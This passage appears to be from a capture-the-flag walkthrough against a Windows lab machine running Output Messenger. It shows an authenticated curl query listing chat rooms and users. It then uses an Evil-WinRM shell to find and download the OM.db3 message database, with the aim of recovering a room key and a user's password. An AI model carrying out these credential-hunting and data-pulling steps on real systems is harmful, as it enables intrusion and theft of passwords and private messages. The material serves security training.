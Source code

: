 ```bash
curl -sH 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' -H 'Host: 127.0.0.1:14125'  http://127.0.0.1:14125/api/chatrooms | jq '.'
{
  "rows": [
    {
      "room": "Chiefs_Marketing_chat",
      "roomusers": "O.martinez|0,A.walker|0"
    },
    {
      "room": "Dev_Chat",
      "roomusers": "Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "General_chat",
      "roomusers": "Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "Marketing_Team_chat",
      "roomusers": "D.anderson|0,L.clark|0"
    }
  ],
  "success": true
}

```

We can see that the user `O.martinez` is in the `Chiefs_Marketing_chat` room, which is where we can find the password for the user.

For that we need the `roomkey` of the room, which we can get from the `OM.db3` file found at the `C:\Users\O.martinez\AppData\Roaming\Output Messenger\JAAA\OM.db3` file, which is the database file used by the `Output Messenger` software to store the data.

```powershell
*Evil-WinRM* PS C:\Users\winrm_svc\appdata\roaming\Output Messenger\JAAA> dir


    Directory: C:\Users\winrm_svc\appdata\roaming\Output Messenger\JAAA


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2024   7:20 AM                Audios
d-----        2/25/2024   7:20 AM                CalendarFiles
d-----        2/25/2024   7:26 AM                Log
d-----        2/25/2024   7:20 AM                MailInbox
d-----        2/25/2024   7:20 AM                MailSent
d-----        2/25/2024   7:20 AM                Received Files
d-----        2/25/2024   7:20 AM                Screenshots
d-----        2/25/2024   7:20 AM                Temp
d-----        2/25/2024   7:20 AM                Theme
-a----        2/25/2024   7:20 AM          29696 OM.db3
-a----        2/25/2024   7:20 AM          13312 OT.db3


*Evil-WinRM* PS C:\Users\winrm_svc\appdata\roaming\Output Messenger\JAAA> download OM.db3
Info: Downloading C:\Users\winrm_svc\appdata\roaming\Output Messenger\JAAA\OM.db3 to OM.db3

Info: Download successful!
*
```
